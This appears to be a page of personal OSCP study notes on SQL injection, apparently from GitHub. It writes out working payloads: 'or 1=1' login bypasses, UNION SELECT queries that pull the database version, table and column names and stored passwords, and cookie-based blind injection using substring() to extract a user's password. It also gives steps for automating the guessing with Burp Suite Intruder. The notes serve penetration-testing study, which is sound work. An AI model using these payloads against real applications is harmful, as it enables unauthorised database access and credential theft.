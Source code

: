 ### SQLi
[SQLMAP](#sqlmap)

**Using or 1=1 statement & union select**
```bash
jeremy' or 1=1#
jeremy' or 1=1-- -

# union select - database version
jeremy' union select null, null, version()#

# union select - database table names
jeremy' union select null, null, table_name from information_schema.tables#

# union select - database columns names
jeremy' union select null, null, column_name from information_schema.columns#

# union select - password from injection0x01 table
jeremy' union select null, null, password from injection0x01#
```

**SQL injection can not just be username,password but cookies or anything that we can injection information**
![image](https://github.com/nurijeon/OSCP/assets/14031269/3caf142b-861e-4765-9f9c-5a69d4788465)

**Blind SQL Injection** - substring
![image](https://github.com/nurijeon/OSCP/assets/14031269/8bf7318a-fca3-4e57-a1fb-7bfd8ab841ad)
```bash
# substring comparison
Cookie: session=' or substring('a', 1, 1) = 'a'#

# using substring, guess the version number
# we need to use () for select version() because we want it to be resolved first
Cookie: session=' or substring((select version()), 1, 1) = '8'#
Cookie: session=' or substring((select version()), 1, 2) = '8.'#
Cookie: session=' or substring((select version()), 1, 3) = '8.0'#

# Using substring, guess the password but this will take forever. So we can handle this from intruder(burpsuite)
Cookie: session=' or substring((select password from injection0x02 where username = 'jessamy'), 1, 1) = '8'#
```

**Blind SQL Injection** - substring && burpsuite
1. We can guess each letter but if we want to automate this process, send this to intruder
![image](https://github.com/nurijeon/OSCP/assets/14031269/a83e0ae8-1286-49c9-b620-f500791a07ef)
2. Add the character we want to fuzz
![image](https://github.com/nurijeon/OSCP/assets/14031269/82f2ae59-fac2-495b-8f52-c12f3b489731)
3. Add a-z 0-9 on payload and start attack
![image](https://github.com/nurijeon/OSCP/assets/14031269/3e6c4502-fa3c-4d62-b49b-3f38c5ff8542)
4. Keep changing the substring length and fuzzing last letter
![image](https://github.com/nurijeon/OSCP/assets/14031269/c8f94ce5-e507-49ed-bef4-77d80b2d0247)
